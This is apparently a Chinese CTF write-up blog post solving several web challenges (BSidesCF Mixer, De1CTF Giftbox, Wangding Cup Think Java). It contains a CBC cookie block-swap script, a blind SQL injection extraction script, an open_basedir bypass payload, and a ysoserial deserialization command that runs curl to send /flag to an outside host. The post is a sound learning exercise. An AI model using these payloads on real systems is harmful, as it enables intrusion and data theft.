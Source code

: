 前言: 今天是废物的一天，元旦三天还是要玩一下，不要卷了。

## 0x01 [BSidesCF 2019]Mixer

密码web 好题，希望后面可以来复现一波

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

url = "https://mixer-f3834380.challenges.bsidessf.net"
action="""?action=login&first_name=A1.00000000000000&last_name=paww"""
r = requests.get(url+action, verify=False, allow_redirects=False)
for c in r.cookies:
    print(c.name, c.value)
    if c.name == "user":
        c.value = c.value[:-32] + c.value[32:64] + c.value[-32:]

resp = requests.get(url, cookies = r.cookies, verify=False, allow_redirects=False)

print resp.text
```

这个题目首先得了解一下CBC加密的方式

分块加密，也就是16byte为一块。也就是exp中的payload要改成

```
{"first_name":"A
1.00000000000000
","last_name":"x
xxx","is_admin":
0}
```

现在就是分别对每一块进行加密，如果我们现在把第二块换到第五块的位置，那么就变成了

```
{"first_name":"A
1.00000000000000
","last_name":"x
xxx","is_admin":
1.00000000000000
0}
```

现在就满足条件了。这也是上面的exp需要表达的意识。

## 0x02 [De1CTF 2019]Giftbox

直接拿着赵总的wp学爆 好吧。conda的python不支持pyopt我也不知道为什么，大家别踩坑就好了。https://www.zhaoj.in/read-6170.html#0x03Giftbox

:recycle:知识点

- sql注入
- php语言特性

:a:解题1 - sql注入

![image-20220103091835125](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220103091835125.png)

打开题目是一个zsh的界面。我们发送一个请求之后开始抓包。

![image-20220103091945572](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220103091945572.png)

我还以为直接就可以拿到shell了，但是仔细观察请求，发现了一个参数`totp` 吓得我赶忙去百度。

`TOTP算法(Time-based One-time Password algorithm)是一种从共享密钥和当前时间计算一次性密码的算法`

可以看到这个参数是加密的(废物文学，但是我们必须找到这个参数是从哪里来的，不然包都不能重放。(去找js文件。`new TOTP("GAXG24JTMZXGKZBU",8).genOTP()`所以这个参数我们也就可以自己生成了。

```
totp = pyotp.TOTP('GAXG24JTMZXGKZBU', 8, interval=5)
totp.now()
```

这样就可以输出获得正确的参数。我们继续收集信息。

```python
cd ls cat hey hi hello help clear exit ~ 
```

这是同一个js文件的信息。

![image-20220103092646426](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220103092646426.png)

在测试的发现了还有这几条指令，我们发现这里有一个登录点，但是我们不知道账号密码，于是我们先寻找无果。于是经`典sql注入?`

开始fuzz。

![image-20220103093007153](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220103093007153.png)

猜测一下后端的语句难道是

```php
$user= select * from users where username=$username;

if($user){
}
else{
}
```

很明显可以开始注入了。

```python
import time
import requests
import pyotp
totp = pyotp.TOTP('GAXG24JTMZXGKZBU', 8, interval=5)
session = requests.session()
url = ""
def sql_injection(mid):
    '''
    :param mid: 输入payload
    :return: 返回是否正确 判断前后夹击的范围
    '''
    time.sleep(0.5)
    payload = f"login admin'/**/and/**/({mid})/**/and/**/'1'='1 123"
    # print(payload)
    a = session.get(url + '/shell.php',
        params={'a':payload,'totp':totp.now()}).text
    # print(a)
    if('password' in a ):
        return  True
    else:
        return  False
def gen_payload():
    '''
    生成payload
    :return:
    '''
    db_payload ="select/**/concat(password)/**/from/**/users"
    res=''
    for x in range(1,64):
        payload = f"ascii(substr(({db_payload}),{x},1))"
        res += chr(half(payload))
        print(res)
    print("[+]" + res)
def half(payload):
    '''
    二分法主体部分
    :param payload:
    :return:
    '''
    low = 0
    high = 126
    while low <= high:
        mid = (low + high) / 2
        mid_num_payload="%s/**/>/**/%d"%(payload,mid)
        if(sql_injection(mid_num_payload)):
            low = mid + 1
        else:
            high = mid -1
    mid_num = int((low + high + 1) / 2)
    return mid_num


def main():
    gen_payload()


if __name__ == '__main__':
    main()
```

buu的记得要设置延时，不然会被你ipban了。

![image-20220103103439593](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220103103439593.png)

后面这个命令，我们看到了双引号，所以{$a()}.懂得都懂。

最后绕过open_base

```
chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('flag'));
```

payload拆分一下就可以了。

## 0x03[网鼎杯 2020 朱雀组]Think Java

:a:jdbc注入

第一步这里的注入是要分成两步的。

![image-20220103110637881](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220103110637881.png)

![image-20220103110645071](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220103110645071.png)

你注入的语句不能影响他正常的连接的同时还要能够注入数据。

```
myapp?a=1' union select pwd from user; #
```

这也是他们说的无用字符不生效。

```
admin@Rrrr_ctf_asde
```

:b:java反序列化

![image-20220103110834039](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220103110834039.png)

登录成功之后不难发现，一串数据。

盲猜这个接口。

![image-20220103110942135](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220103110942135.png)

对数据进行了反序列化。然后我们应该对这个数据

https://www.cnblogs.com/h3zh1/p/12914439.html

然后用`ysoserial-master.jar`小何yyds

```
ysoserial用法:以ROME和URLDNS举例
即用ROME(我现在的认知就是他每一种都有不同的作用，比如rome可以命令执行，URLDNS可以进行dns回显)。
```

yyds!

```
java -jar ysoserial-master.jar ROME "curl http://xxx -d @/flag" > dem0.bin
```

第一次使用yso工具解题，做到拿到密码就不会的web废物解决了。

## 0x04 string.strip_tags

`string.strip_tags`可以把php标签进行删除掉。

arjun 爆破参数。

## 0x05 

